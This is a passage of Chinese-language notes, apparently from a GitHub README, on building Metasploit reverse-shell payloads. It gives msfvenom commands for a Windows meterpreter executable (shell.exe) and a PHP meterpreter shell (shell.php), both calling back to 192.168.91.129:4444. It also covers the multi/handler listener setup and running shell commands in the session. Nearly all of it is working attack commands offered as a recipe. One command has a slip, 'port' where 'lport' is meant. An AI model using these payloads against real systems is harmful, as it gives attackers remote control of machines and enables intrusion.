   2. windos
     1. CLI下生成payload
        ```
        msfvenom -p windows/meterpreter/reverse_tcp lhost=[你的IP] lport=[端口] -f exe -o 要生成的文件名

       msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.91.129 port=4444 -f exe -o shell.exe
        ```
    2. 设置msf
       ```
        msf  >  use exploit/multi/handler
        msf  >  set payload windows/meterpreter/reverse_tcp #设置的payload要和生成的相同
        msf  >  set LHOST 自己IP
        msf  >  run

        执行以下shell命令在一个Meterpreter会话界面中使用cmd shell：
        shell
        whoami
       ```
        ![](img/2.png)

  3. [PHP](https://www.fujieace.com/kali-linux/meterpreter-reverse_tcp-handler.html)
      ```
      msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.91.129 LPORT=4444 -f raw > shell.php

        msf  >  use exploit/multi/handler
        msf  >  set payload php/meterpreter_reverse_tcp  #设置的payload要和生成的相同
        msf  >  set LHOST 自己IP
        msf  >  run
      ```
      ![](img/3.png)
